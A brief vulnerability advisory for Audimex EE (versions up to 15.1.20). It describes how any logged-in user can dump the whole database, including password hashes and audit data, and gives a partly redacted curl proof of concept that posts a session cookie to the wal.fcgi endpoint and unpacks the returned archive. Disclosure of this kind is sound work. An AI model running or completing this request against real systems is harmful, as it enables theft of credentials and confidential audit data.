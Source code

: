 # Audimex EE

## Versions affected: <= 15.1.20

## Description:

Analyzing the offline client code, it was identified that it is possible for any user (with any privilege) of Audimex to dump the whole Audimex database. This gives visibility upon password hashes of any user, ongoing audit data and more.

## POC

Replace the cookie placeholder with the cookie of any valid user:

```bash
curl -s -k -X $'POST' -b $'wal_sid_axdx_1={COOKIE_OF_ANY_VALID_USER}' [REDACTED FOR THE MOMENT] -F "sid=axdx_1" $'https://{HOST}/app/cgi-bin/wal.fcgi' -o db.zip && 7z -y x db.zip
```
